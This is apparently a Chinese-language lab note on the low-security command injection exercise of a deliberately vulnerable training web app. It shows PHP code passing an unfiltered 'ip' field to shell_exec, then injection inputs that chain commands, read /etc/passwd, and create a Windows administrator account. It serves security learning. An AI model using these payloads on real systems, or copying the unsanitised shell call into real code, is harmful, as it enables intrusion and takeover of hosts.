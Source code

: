 <center>Command Injection命令注入</center>









## Command Injection命令注入

> 命令注入











### 1. low

> 低级
>
> 代码：[url](http://192.168.0.111:8000/vulnerabilities/view_source.php?id=exec&security=low)

```shell
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

> 没有做任何过滤
>
> linux/windowns 的基本命令

````shell
# win
127.0.0.1 && ipconfig
# 创建用户提升管理员
net user UserName PassWord /add
net localgroup Administrators UserName /add


# linux 等
127.0.0.1 | ip addr
127.0.0.1 | cat /etc/passwd 
````

